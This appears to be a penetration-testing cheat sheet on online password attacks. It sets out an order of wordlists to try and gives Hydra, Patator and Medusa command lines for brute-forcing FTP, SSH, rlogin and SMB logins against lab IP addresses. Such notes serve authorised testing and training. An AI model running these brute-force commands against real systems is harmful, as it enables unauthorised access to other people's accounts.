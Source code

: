 Online password attacks take time, so it's best to try the most common or likely passwords first before using more exhaustic wordlists or brute force combinations. In general, I find something like this works best

1. A quick `-e nsr` check with Hydra to test for password as username, reverse or null
2. A [custom list](generate-custom-wordlist.md) generated from the target media and assets including users, html, competitors etc.
3. Darknet Top 10 or 100 passwords
4. A smaller standard list such as nmap default
5. A larger more extensive list like Rockyou

## SSH, FTP, SMB

### Using Hydra

#### Hydra's Quick check

This option will run a quick check by attempting password as username, username in reverse and null passwords

```text
hydra -l user -e nsr 10.10.10.140 -s 21 ftp
hydra -L /path/userlist.txt -e nsr 10.10.10.228 -s 22 ssh
```

#### Using wordlists

```text
hydra -l root -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top100.txt 10.10.10.228 -s 22 ssh
```

### Using Patator

#### Rlogin

```
patator rlogin_login host=10.10.10.228 user=user password=FILE0 0=/usr/share/wordlists/SecLists/Passwords/darkweb2017-top100.txt -x 'reset:egrep!=Login incorrect.+login:' -x ignore:fgrep=Password:
```

#### SSH

```
patator ssh_login host=10.10.10.228 user=user password=FILE0 0=/usr/share/wordlists/nmap.lst -x ignore:mesg='Authentication failed.'
```

### Using Medusa

```text
medusa -h 10.20.20.150 -P /usr/share/wordlists/nmap.lst -u admin -M smbnt
```


## HTACCESS
